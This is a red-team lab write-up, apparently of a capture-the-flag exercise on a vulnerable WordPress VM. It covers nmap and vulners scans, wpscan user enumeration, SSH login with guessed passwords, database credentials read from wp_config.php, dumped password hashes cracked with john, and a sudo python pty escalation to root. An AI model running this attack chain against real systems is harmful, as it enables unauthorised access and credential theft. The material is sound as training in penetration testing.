# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for full network scan:  
`nmap -sP 192.168.1.1-255`  


Nmap scan results for each machine reveal the below services and OS details:
- Target 1  
`$ nmap -sV 192.168.1.110`  


- Target 2  
`$ nmap -sV 192.168.1.115`  


This scan identifies the services below as potential points of entry:
- Target 1

| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

- Target 2  

| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1  
`nmap -sV -script vulners --script-args mincvss=7.0 192.168.1.110`


**Top Ranked:**  

| Service                                       | Severity | CVE             |
|-----------------------------------------------|----------|-----------------|
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 10.0     | [CVE-2001-0554](https://vulners.com/cve/CVE-2001-0554) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 8.5      | [CVE-2015-5600](https://vulners.com/cve/CVE-2015-5600) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 7.5      | [CVE-2020-16088](https://vulners.com/cve/CVE-2020-16088) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5      | [CVE-2021-26691](https://vulners.com/cve/CVE-2021-26691) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7679](https://vulners.com/cve/CVE-2017-7679) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7668](https://vulners.com/cve/CVE-2017-7668) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3169](https://vulners.com/cve/CVE-2017-3169) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3167](https://vulners.com/cve/CVE-2017-3167) |  

- Target 2    
`nmap -sV -script vulners --script-args mincvss=7.0 192.168.1.115`


**Top Ranked:**

| Service                                       | Severity | CVE             |
|-----------------------------------------------|----------|-----------------|
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 10.0     | [CVE-2001-0554](https://vulners.com/cve/CVE-2001-0554) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 8.5      | [CVE-2015-5600](https://vulners.com/cve/CVE-2015-5600) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 7.5      | [CVE-2020-16088](https://vulners.com/cve/CVE-2020-16088) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5      | [CVE-2021-26691](https://vulners.com/cve/CVE-2021-26691) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7679](https://vulners.com/cve/CVE-2017-7679) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7668](https://vulners.com/cve/CVE-2017-7668) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3169](https://vulners.com/cve/CVE-2017-3169) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3167](https://vulners.com/cve/CVE-2017-3167) |

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: `flag{b9bbcb33e11b80be759c4e844862482d}`  
    - **Exploit Used**  
      - Weak Password Exploit  
      - Found list of WordPress users (`michael` and `steven`):  
      `wpscan --url http://192.168.1.110/wordpress -eu`  
        
      - The user `michael` had an insecure password `michael`  
      - Gained access to VM via ssh  
      `ssh michael@192.168.1.110`  
        
      - Tried to do a blanket search for files named `flag*`, but this gave no direct matches. This search was run from `/`. The `2>/dev/null` filters out all the permission denied errors.  
      `find . -name flag* 2>/dev/null`  
      - Given we are exploiting WordPress, suspicion was that the flag would be located some where in the WordPress web applicaiton directory `/var/www`. Ran the following wild card search to find any matches:    
      `grep -r flag1 *`  
      - This will grep files recursively to find anything with `flag1`.  
      - We found the flag located in `/var/www/html/service.html`.  
        
  - `flag2`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
      - Weak Password Exploit
      - Found list of WordPress users (`michael` and `steven`):    
      `wpscan --url http://192.168.1.110/wordpress -eu`  
      
      - The user `michael` had an insecure password `michael`
      - Gained access to VM via ssh  
      `ssh michael@192.168.1.110`  
        
      - Tried to do a blanket search for files named `flag*`, and this proved successful. This search was run from `/`. The `2>/dev/null` filters out all the permission denied errors.
      `find . -name flag* 2>/dev/null`  
        
      - We found the flag located in `/var/www/flag2.txt`.    
        
  - `flag3`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - Weak Password Exploit
      - Exploited WordPress configuration file:      
      
      - Accessed database using credentials found in `wp_config.php`.  
      Username: `root`  
      Password: `R@v3nSecurity`
      - Gained access to MySQL database  
      `mysql -u root -p R@v3nSecurity`  
        
      - Showed what databases exist  
        
      - Selected `wordpress` database  
        
      - Showed what tables exist.  
        
      - Select rows from `wp_users`    
        
      - Select rows from other tables  
      - Selected rows from `wp_posts` and found flag stored in table  
        
  - `flag4`: `flag4{715dea6c055b9fe3337544932f2941ce}`  
    - **Exploit Used**
      - Weak Password Exploit  
      - Brute force attack  
        
      - Get hashes stored in `wp_users`    
      `michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0`  
      `steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/`  
        
      - Create a file to store hashes for password crack  
      - Use `john` to crack passwords  
      ```
      $ john pwd_hash.txt
      $ john -show pwd_hash.txt
      steven: pink84
      michael: michael
      ```  
      - Secure user shell of steven  
      ```
      ssh steven@192.168.1.110
      Enter password: pink84
      ```  
      - There was a hint given about using Python to escalate privileges to `root`  
      ```
      sudo python -c 'import pty; pty.spawn("/bin/bash");'
      ```  
      - This script escalated privileges to root and gave the flag  
      
